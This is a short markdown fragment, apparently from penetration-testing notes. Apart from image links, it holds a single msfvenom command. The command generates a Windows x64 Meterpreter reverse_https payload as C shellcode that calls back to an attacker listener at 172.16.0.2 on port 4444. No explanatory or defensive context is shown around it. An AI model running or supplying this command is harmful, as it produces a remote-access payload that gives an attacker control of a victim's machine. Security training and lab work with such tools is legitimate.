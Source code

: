 <img src="../../images//image-20230123194330737.png" alt="image-20230123194330737" style="zoom: 67%;" />

```
msfvenom -p windows/x64/meterpreter/reverse_https lhost=172.16.0.2 lport=4444 -f c >shell64.c
```

![image-20230123194819553](../../images//image-20230123194819553.png)
